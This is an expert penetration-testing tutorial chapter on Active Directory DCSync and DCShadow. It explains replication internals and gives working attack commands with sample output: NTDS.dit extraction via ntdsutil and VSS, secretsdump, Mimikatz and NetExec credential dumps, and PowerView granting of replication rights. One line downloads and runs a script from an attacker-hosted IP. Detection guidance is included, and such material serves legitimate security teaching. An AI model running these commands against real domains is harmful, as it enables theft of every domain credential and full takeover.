






**Level:** Expert · **Track:** Penetration Testing · **Read time:** 270 min

This is Chapter 7 of the Active Directory attack notebook — Notebook 18. Chapter 6 closed the ticket-forgery arc: once you hold the `krbtgt` key you can forge a Golden Ticket and impersonate anyone in the forest. This chapter answers the question that comes right before that one — **how do you get the `krbtgt` key, and every other secret in the domain, without ever touching a Domain Controller's disk or logging on to it interactively?** The answer is DCSync: you *ask* a real Domain Controller to hand you those secrets over the wire, using the exact same protocol that Domain Controllers use to replicate with each other.

Active Directory is a multi-master, replicated database. Every writable Domain Controller (DC) holds a full copy of the directory and continuously synchronises changes with its peers using the **Directory Replication Service Remote Protocol (MS-DRSR)**, exposed over RPC as the **DRSUAPI** interface. Replication is not an afterthought bolted onto AD — it is the beating heart of how a forest stays consistent. And replication, by design, includes secrets: password hashes, Kerberos keys, the `krbtgt` key, trust keys, everything. If a DC could not replicate secrets, a second DC could never authenticate a user. **DCSync is the abuse of this legitimate machinery**: an attacker who controls a principal with the right replication permissions calls the `DRSGetNCChanges` operation and says, in effect, "I am a Domain Controller, please replicate the secrets for this account to me" — and the DC complies, because the request is protocol-valid and the caller has the rights.

**DCShadow** is the mirror image. Instead of *reading* the directory via replication, it *writes* to it. DCShadow temporarily registers the attacker's machine as a rogue Domain Controller in the forest's configuration, then pushes a crafted replication update — an inbound `GetNCChanges` reply — that plants arbitrary attribute values (a new `SIDHistory`, a modified `primaryGroupID`, a resource-based delegation blob) directly into the real directory. Because the change arrives through the replication channel rather than through a normal LDAP write on a monitored DC, it slips past a great deal of conventional object-level auditing.

The single fact to internalise before anything else: **replication rights are domain-dominance rights.** The ability to replicate secrets is functionally equivalent to Domain Admin, because it yields the `krbtgt` key (Golden Tickets, forever), every user's NT hash (Pass-the-Hash against everyone), and every trust key (cross-domain compromise). This is why the crown-jewel objects of a red-team engagement are not "Domain Admins group membership" but the two extended rights that grant replication — and why one of the most common, most overlooked misconfigurations in real forests is a service account, a stale admin group, or a delegated help-desk principal that has been handed those rights by accident.

Everything in this chapter assumes an explicit, written, scoped engagement or a lab you built yourself (Part 12 shows how to stand one up). DCSync against a production forest exfiltrates every credential in the domain in seconds; DCShadow rewrites the source of truth for authentication. Treat both with the gravity the defenders on the other side treat them.

## Part 1: The Big Picture — Why Replication Is a Superpower

Before any tooling, you need a mental model of what you are abusing and why it is so total.

A single AD domain can have many Domain Controllers for availability and locality. There is no single "primary" DC in modern AD (the NT4-era PDC/BDC model is gone; the "PDC Emulator" is just an FSMO role, not a master copy). Every writable DC holds a complete, writable replica of the domain's naming context. When an administrator resets a password on DC-A, that change must reach DC-B, DC-C and every other DC, or a user who authenticates against DC-B would still have the old password. AD solves this with **multi-master replication**: DCs pull changes from each other on a schedule and on demand.

The unit of "what gets replicated" is a **naming context (NC)**, also called a partition. Three matter here:

- The **Domain NC** (e.g. `DC=corp,DC=local`) — users, groups, computers, and their secret attributes.
- The **Configuration NC** (`CN=Configuration,DC=corp,DC=local`) — the forest-wide description of the topology itself: sites, subnets, services, and crucially the list of *which servers are Domain Controllers*. DCShadow abuses this partition.
- The **Schema NC** (`CN=Schema,CN=Configuration,...`) — attribute and class definitions.

Replication of secrets is gated by two **extended rights** (control access rights, expressed as GUIDs in an object's DACL):

| Right (display name) | GUID | What it authorises |
|---|---|---|
| `DS-Replication-Get-Changes` | `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` | Replicate non-secret attribute changes for a naming context, but **not** secret attributes. |
| `DS-Replication-Get-Changes-All` | `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` | Replicate **all** attributes, including secrets (`unicodePwd`, `dBCSPwd`, `supplementalCredentials`, `msDS-KeyCredentialLink`). |
| `DS-Replication-Get-Changes-In-Filtered-Set` | `89e95b76-444d-4c62-991a-0facbeda640c` | Replicate attributes in the RODC filtered attribute set (relevant to some edge cases). |

To perform a full DCSync of a user's secrets you need **both** `Get-Changes` **and** `Get-Changes-All` on the domain object. Members of Domain Admins, Enterprise Admins, and the Domain Controllers group hold these by default. The whole attack surface is: *who else has been granted them?*



The elegance — and the danger — is that **DCSync requires no code execution on the DC, no service creation, no touching `NTDS.dit` on disk, and no interactive logon.** It is a single legitimate RPC call from anywhere the attacker can reach the DC's RPC endpoint (TCP 135 + the dynamically allocated DRSUAPI port, or the fixed port if the admin pinned it). To the DC, the request looks like a peer DC doing its job.

**Red team usage:** DCSync is the canonical "domain-dominance confirmation" step. The moment you land on a principal that BloodHound flags with `GetChanges`/`GetChangesAll`, you dump `krbtgt` and you own the domain's authentication forever (until krbtgt is double-rotated — see Chapter 6). **Blue team usage:** because the operation is a specific DRSUAPI call, it is detectable at the network and at the DC (Event ID 4662 with the replication GUIDs) — the defensive half of this chapter is about making that detection reliable.

## Part 2: How AD Replication Actually Works (DRSUAPI, GetNCChanges, USNs)

To abuse replication competently — and to understand exactly what defenders can and cannot see — you need to know how a real replication cycle runs. This section rebuilds it.

### 2.1 The transport: RPC over the DRSUAPI interface

Domain Controllers replicate using **RPC** bound to the DRSUAPI interface, whose interface UUID is `E3514235-4B06-11D1-AB04-00C04FC2DCD2`. The classic flow:

1. The requesting DC binds to the target DC's `\PIPE\lsass` / RPC endpoint and calls **`DRSBind`** to establish a replication session, negotiating capabilities (the "extensions" bitmask that says which DRS features each side supports).
2. It then calls **`DRSGetNCChanges`** (opnum 3) to pull changes for a naming context, passing the NC, a "high-water mark" (how up-to-date the caller already is), and a flag set describing what it wants (including whether it wants secret attributes).
3. The source DC replies with a set of **objects and attribute values** that changed since the caller's high-water mark, plus updated replication metadata.

DCSync is nothing more than a rogue caller performing steps 1–2 with a request scoped to a single object (the target user) and asking for its secret attributes.



### 2.2 USNs, high-water marks and metadata

Every writable DC maintains a monotonically increasing **Update Sequence Number (USN)**. Every originating or replicated change bumps the local USN and stamps the changed attribute with replication metadata: which DC originated the change (`uSNChanged`, `whenChanged`, and a per-attribute version + originating DSA GUID). When DC-B pulls from DC-A, it sends the highest USN it has already seen from DC-A (the high-water mark). DC-A returns only newer changes. This is why replication is efficient — it is delta-based.

**Why this matters to an attacker:** a legitimate replication touches many objects and advances metadata. A DCSync of a single account is a tiny, targeted `GetNCChanges` that asks for one object's secrets and does *not* originate a change — so on the source DC it leaves a **read-style** footprint (a directory-access event), not a modification. This asymmetry is exactly why DCSync is quiet on the *change* logs but noisy on the *access* logs if directory-access auditing is on. DCShadow, by contrast, *originates* changes and therefore has to briefly masquerade as a DC that is allowed to originate them.

### 2.3 What "secrets" look like on the wire

When a DC replicates a user, secret attributes are encrypted with the replication session key (derived during `DRSBind`) and packed as `ATTRTYP`/`ATTRVAL` blobs. The interesting ones:

| Attribute | Contains | Post-processing |
|---|---|---|
| `unicodePwd` | Current NT hash (RC4-HMAC key), encrypted | Decrypt → 16-byte NT hash |
| `dBCSPwd` | LM hash (usually blank on modern domains) | Decrypt → LM hash |
| `ntPwdHistory` | Previous NT hashes | Decrypt → history array |
| `supplementalCredentials` | Kerberos AES128/AES256/DES keys, cleartext (if reversible encryption on), WDigest | Parse KERB_STORED_CREDENTIAL structures |
| `msDS-KeyCredentialLink` | Shadow Credentials / WHfB key material | Relevant to Chapter on Shadow Credentials |

secretsdump and Mimikatz do the decryption and structure-parsing for you, but knowing the blobs exist explains why DCSync yields not just NT hashes but **AES Kerberos keys** (needed for AES-only Golden Tickets and better opsec) and sometimes cleartext passwords.

## Part 3: DCSync vs. Raw NTDS Extraction — Two Roads to the Same Hashes

DCSync is one of *two* fundamentally different ways to obtain the domain's password hashes. Understanding the difference sharpens both your offense and your detection.

**Road 1 — DCSync (over-the-wire replication).** You call `DRSGetNCChanges` from a principal with replication rights. No file access, no code execution on the DC. You can target a single account or enumerate all of them. Footprint: a directory-service access event on the source DC; network RPC to DRSUAPI.

**Road 2 — Raw NTDS.dit extraction (on-box).** The directory database lives in `C:\Windows\NTDS\NTDS.dit`, an ESE (Extensible Storage Engine / "Jet Blue") database. It is locked while the DC runs, so you cannot simply copy it. Instead you snapshot it — via **Volume Shadow Copy (VSS)**, `ntdsutil "ifm"`, or `esentutl` — then carry off `NTDS.dit` plus the `SYSTEM` registry hive (which holds the **boot key / SysKey** used to decrypt the PEK that in turn decrypts the hashes). Footprint: shadow-copy creation, file access, often service/`ntdsutil` execution — much noisier on the host, but invisible to replication-access auditing.

| Dimension | DCSync (DRSUAPI) | NTDS.dit extraction (VSS/IFM) |
|---|---|---|
| Requires code exec on DC? | No | Usually yes (or admin file access) |
| Requires replication rights? | Yes (Get-Changes + Get-Changes-All) | No — needs local admin/DA on the DC |
| Can run remotely? | Yes, from any host that can reach RPC | Partly (remote via `wmiexec`/VSS admin) |
| Touches disk / NTDS.dit? | No | Yes |
| Primary detection surface | Event 4662 (replication GUIDs), network DRSUAPI | VSS creation (Event 8222), `ntdsutil`, file access |
| Granularity | Single account or all | Whole database |
| Needs SYSTEM hive? | No | Yes (for the boot key) |



**Pentester decision rule:** if you already hold a principal with replication rights, prefer DCSync — it is quieter on the host and needs no file wrangling. If you have local admin on the DC but *not* replication rights on a suitable principal, go the NTDS route (or grant yourself replication rights via ACL abuse and then DCSync). Both end at the same `krbtgt` key.

### 3.1 NTDS.dit internals — how the hashes are actually stored

`NTDS.dit` is an **ESE (Jet Blue) database** with three tables that matter: the `datatable` (every object and attribute — this is where user rows and their encrypted `unicodePwd` live), the `link_table` (linked attributes like `member`/`memberOf`), and the `sd_table` (security descriptors). Password hashes are **not** stored in cleartext-hash form directly; they are encrypted with a layered scheme:

1. The **BootKey / SysKey** is assembled from four registry keys under `HKLM\SYSTEM\CurrentControlSet\Control\Lsa` (`JD`, `Skew1`, `GBG`, `Data`) — this is why offline extraction needs the `SYSTEM` hive.
2. The BootKey decrypts the **PEK (Password Encryption Key)**, stored (itself encrypted) in the `datatable`.
3. The PEK decrypts each account's `unicodePwd`/`supplementalCredentials`. On modern DCs the per-hash encryption is **AES** (older DCs used RC4 with a per-record salt).

So the offline chain is: `SYSTEM hive → BootKey → PEK → per-account NT hash / Kerberos keys`. `secretsdump.py` implements every step of this; understanding it explains why you must grab **both** `NTDS.dit` and the `SYSTEM` hive — one without the other is useless.

### 3.2 Worked on-box extraction (Road 2)

When you have local admin / SYSTEM on a DC but no convenient replication-rights principal, snapshot the locked database. The cleanest native method is `ntdsutil`'s **Install-From-Media (IFM)** export, which produces a consistent copy of both the database and the hive:

```cmd
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\ifm" quit quit
```

Realistic output:

```
ifm: create full C:\Windows\Temp\ifm
Creating snapshot...
Snapshot set {b3...} generated successfully.
Snapshot {a1...} mounted as C:\$SNAP_...\
Initiating DEFRAGMENTATION mode...
     Copying registry files...
     Copying C:\Windows\Temp\ifm\registry\SYSTEM
     Copying C:\Windows\Temp\ifm\registry\SECURITY
     Copying ntds.dit...
     Copying C:\Windows\Temp\ifm\Active Directory\ntds.dit
IFM media created successfully in C:\Windows\Temp\ifm
```

Alternatively, a raw **VSS** snapshot copies the live files out from under the lock:

```cmd
vssadmin create shadow /for=C:
:: note the "Shadow Copy Volume" path it prints, then:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM
vssadmin delete shadows /shadow={the-shadow-id} /quiet
```

Exfil `ntds.dit` + `SYSTEM`, then parse **offline on Kali** (no auth, no network to the DC):

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile corp_offline
```

```
[*] Target system bootKey: 0x8f2c...redacted
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a4c1...redacted
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6b...:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5c1f3f2a...a19b:::
...
```

**Blue team usage:** the VSS/IFM path is loud on the host — `vssadmin create shadow` (Event **8222** / VSS operational log), `ntdsutil` process execution, and file access to `NTDS.dit` are all high-fidelity signals. This is exactly why an attacker with replication rights prefers DCSync: it produces none of these host artefacts, only the directory-access 4662 event. The two roads have almost disjoint detection surfaces, which is why defenders must monitor *both*.

## Part 4: Tooling From Scratch — Mimikatz, Impacket secretsdump, NetExec, PowerView

This chapter uses four tools. Each is taught from zero the first time it appears.

### 4.1 Mimikatz

**What it is.** Mimikatz is Benjamin Delpy's (`gentilkiwi`) Windows post-exploitation toolkit — the single most important credential-attack tool in the AD ecosystem. It interacts with LSASS, Kerberos, and the DRSUAPI client to extract and forge credentials. It is a native Windows PE (also embedded in Cobalt Strike, Metasploit's `kiwi`, and countless loaders).

**Why it exists.** It began as a proof that Windows stored recoverable credentials in memory (WDigest cleartext) and grew into the reference implementation for Pass-the-Hash, Pass-the-Ticket, Golden/Silver Tickets, DCSync and DCShadow.

**Install on Kali (for cross-compilation/relay) / run on Windows.** Mimikatz runs on Windows. On an engagement you drop `mimikatz.exe` (x64) onto a foothold, or run it in-memory via a loader to dodge AV. The relevant modules here:

- `lsadump::dcsync` — perform DCSync against a DC.
- `lsadump::dcshadow` — register a rogue DC and push changes.
- `privilege::debug` — acquire `SeDebugPrivilege` (needed for many LSASS operations, not strictly for dcsync).

**Core DCSync workflow:**

```
mimikatz # lsadump::dcsync /domain:corp.local /user:krbtgt
```

Realistic (trimmed) output:

```
[DC] 'corp.local' will be the domain
[DC] 'DC01.corp.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **
SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Password last change : 6/14/2025 9:12:44 AM
Object Security ID   : S-1-5-21-1583...-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 5c1f3f...redacted...a19b
    ntlm- 0: 5c1f3f...a19b
    lm  - 0: 4d94...redacted

* Primary:Kerberos-Newer-Keys *
    Default Salt : CORP.LOCALkrbtgt
    Credentials
      aes256_hmac       (4096) : 9e1f...redacted...
      aes128_hmac       (4096) : b7c2...redacted...
      des_cbc_md5       (4096) : 1a2b...redacted...
```

That `Hash NTLM` for `krbtgt` plus the `aes256_hmac` key is everything you need for a Golden Ticket (Chapter 6).

### 4.2 Impacket `secretsdump.py`

**What it is.** Impacket is a Python library of native network-protocol implementations (SMB, RPC, DRSUAPI, Kerberos, LDAP). `secretsdump.py` is its flagship credential-extraction script and the go-to for DCSync from Linux/Kali — no Windows foothold required.

**Why it exists.** It lets an operator on Kali speak DRSUAPI directly, so you can DCSync from your attack box the moment you have valid credentials with replication rights.

**Install on Kali:**

```bash
# Usually preinstalled on Kali; otherwise:
pipx install impacket
# or
git clone https://github.com/fortra/impacket && cd impacket && pipx install .
```

**Core DCSync workflow (remote, over DRSUAPI):**

```bash
# Dump only domain secrets via replication (-just-dc), password auth:
secretsdump.py corp.local/replicator:'P@ssw0rd!'@10.10.10.5 -just-dc

# Only NTLM hashes, skip Kerberos keys/history (faster, quieter output):
secretsdump.py corp.local/replicator:'P@ssw0rd!'@10.10.10.5 -just-dc-ntlm

# Target a single account (krbtgt) instead of the whole domain:
secretsdump.py corp.local/replicator@10.10.10.5 -just-dc-user krbtgt

# Pass-the-hash instead of a password:
secretsdump.py -hashes :5c1f3f...a19b corp.local/replicator@10.10.10.5 -just-dc
```

Flag-by-flag:

| Flag | Meaning |
|---|---|
| `-just-dc` | Use DRSUAPI (DCSync) to pull NTDS secrets: NTLM hashes **and** Kerberos keys. |
| `-just-dc-ntlm` | Same but NTLM hashes only (no Kerberos keys / password history). |
| `-just-dc-user <SAM>` | Restrict replication to a single account (surgical, quieter, targets krbtgt directly). |
| `-hashes LM:NT` | Authenticate with an NT hash (Pass-the-Hash) instead of a password. |
| `-k -no-pass` | Use Kerberos auth from a `KRB5CCNAME` ticket (works with a forged/PtT ticket). |
| `-outputfile <name>` | Write `.ntds`, `.ntds.kerberos`, etc. dumps to files. |
| `-ntds <file> -system <hive>` | LOCAL mode: parse an offline NTDS.dit with the SYSTEM hive (Road 2). |

Realistic output of `-just-dc-user krbtgt`:

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5c1f3f...a19b:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:9e1f...redacted...
krbtgt:aes128-cts-hmac-sha1-96:b7c2...redacted...
krbtgt:des-cbc-md5:1a2b...redacted...
[*] Cleaning up...
```

### 4.3 NetExec (formerly CrackMapExec)

**What it is.** NetExec (`nxc`) is a swiss-army network-execution and enumeration tool that wraps Impacket, LDAP, SMB, WinRM and more into a single CLI with module support. It can DCSync in one line and is excellent for spraying/validating credentials at scale.

**Install on Kali:**

```bash
pipx install git+https://github.com/Pennyw0rth/NetExec
```

**Core DCSync workflow:**

```bash
# DCSync the whole domain via the ntdsutil-less DRSUAPI path:
nxc smb 10.10.10.5 -u replicator -p 'P@ssw0rd!' --ntds

# Only pull enabled users, and only NTLM (no history):
nxc smb 10.10.10.5 -u replicator -p 'P@ssw0rd!' --ntds --user krbtgt
```

`--ntds` triggers the DRSUAPI dump; NetExec prints hashes in a pwdump-style line and flags accounts that are enabled/disabled.

### 4.4 PowerView (grant/enumerate the rights)

**What it is.** PowerView (part of PowerSploit / now maintained in various forks) is a PowerShell AD-reconnaissance and manipulation toolkit. Here it is used to (a) enumerate who already holds replication rights, and (b) *grant* those rights via `Add-DomainObjectAcl` when you control a principal that can write the domain object's DACL.

**Load it (in-memory):**

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/PowerView.ps1')
# or import from disk:
Import-Module .\PowerView.ps1
```

We use its `Add-DomainObjectAcl`, `Get-DomainObjectAcl`, and `Get-ObjectAcl` cmdlets in Parts 5 and 7.

## Part 5: Finding Who Can DCSync — Enumeration

Before you can DCSync, you need a principal that already has the replication rights, or a path to grant them. Enumeration comes first.

### 5.1 With PowerView (from a Windows foothold)

The domain object's DACL contains the ACEs that grant `Get-Changes` / `Get-Changes-All`. Enumerate every principal that has one of the replication extended rights:

```powershell
# Resolve the two replication GUIDs against the domain object's ACL:
$dc = Get-DomainSID
Get-DomainObjectAcl -SearchBase "DC=corp,DC=local" -SearchScope Base -ResolveGUIDs |
  Where-Object {
    ($_.ObjectAceType -match 'Replication-Get-Changes')
  } |
  Select-Object SecurityIdentifier, ObjectAceType,
    @{Name='Principal';Expression={ConvertFrom-SID $_.SecurityIdentifier}}
```

Realistic output:

```
Principal                 SecurityIdentifier      ObjectAceType
---------                 ------------------      -------------
CORP\Domain Admins        S-1-5-21-...-512        DS-Replication-Get-Changes
CORP\Domain Admins        S-1-5-21-...-512        DS-Replication-Get-Changes-All
CORP\Enterprise Admins    S-1-5-21-...-519        DS-Replication-Get-Changes-All
CORP\Domain Controllers   S-1-5-21-...-516        DS-Replication-Get-Changes-All
CORP\svc-backup           S-1-5-21-...-1607       DS-Replication-Get-Changes
CORP\svc-backup           S-1-5-21-...-1607       DS-Replication-Get-Changes-All
```

That last pair is gold: `svc-backup` is a non-default principal holding **both** rights. If you can compromise `svc-backup`, you can DCSync — no Domain Admin needed. Backup software, Azure AD Connect (`MSOL_` accounts), Exchange, and Entra Connect sync accounts are classic real-world holders of these rights.

### 5.2 With BloodHound (the canonical way)

BloodHound (Chapter 2) models these rights as the edges **`GetChanges`**, **`GetChangesAll`**, and the composite **`DCSync`**. After collecting with SharpHound, run the built-in analytics or this Cypher query in the BloodHound GUI:

```cypher
MATCH p=(n)-[:DCSync|GetChanges|GetChangesAll]->(d:Domain {name:"CORP.LOCAL"})
WHERE NOT n.name STARTS WITH "DOMAIN CONTROLLERS@"
RETURN p
```

BloodHound's **"Find Principals with DCSync Rights"** pre-built query does exactly this. The DCSync edge is drawn only when a principal holds *both* GetChanges and GetChangesAll — i.e. it is truly capable of dumping secrets. This is the single most valuable red-team pathfinding query in AD: it turns "who is Domain Admin?" into the more precise "who can *become* Domain Admin via replication?"

### 5.3 From Linux with Impacket / ldap

If you only have creds and a Kali box, `dacledit.py` (Impacket) or `ldapsearch` can read the nTSecurityDescriptor, but the practical path is BloodHound's `bloodhound-python` collector plus the Cypher query above. NetExec's LDAP module can also enumerate:

```bash
nxc ldap 10.10.10.5 -u lowpriv -p 'Passw0rd' -M daclread -o TARGET_DN="DC=corp,DC=local" ACTION=read
```

**Blue team usage:** the defenders' equivalent of this enumeration is a scheduled audit of the domain-head DACL for any non-default SID holding the replication rights. Any principal outside {Domain Admins, Enterprise Admins, Administrators, Domain Controllers, Enterprise/Read-only DCs, and the well-known replication accounts} is a finding. Part 11 gives the exact PowerShell.

## Part 6: Granting Yourself DCSync — ACL Abuse (Add-DomainObjectAcl)

Frequently you do *not* start with a principal that has replication rights, but you *do* control a principal that has **`WriteDacl`** or **`GenericAll`/`GenericWrite`/`Owns`** over the **domain object**. Those permissions let you write a new ACE onto the domain head granting replication rights to a principal you control — and then DCSync. This is one of the most common escalation chains BloodHound surfaces.



### 6.1 With PowerView (Windows)

```powershell
# You control CORP\lowpriv and it has WriteDacl on the domain object.
# Grant lowpriv the replication rights:
$SecPassword = ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('CORP\lowpriv', $SecPassword)

Add-DomainObjectAcl -Credential $Cred `
  -TargetIdentity "DC=corp,DC=local" `
  -PrincipalIdentity lowpriv `
  -Rights DCSync
```

`-Rights DCSync` is a PowerView convenience that adds *both* `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` ACEs in one call. Verify:

```powershell
Get-DomainObjectAcl -SearchBase "DC=corp,DC=local" -SearchScope Base -ResolveGUIDs |
  ? { (ConvertFrom-SID $_.SecurityIdentifier) -eq 'CORP\lowpriv' }
```

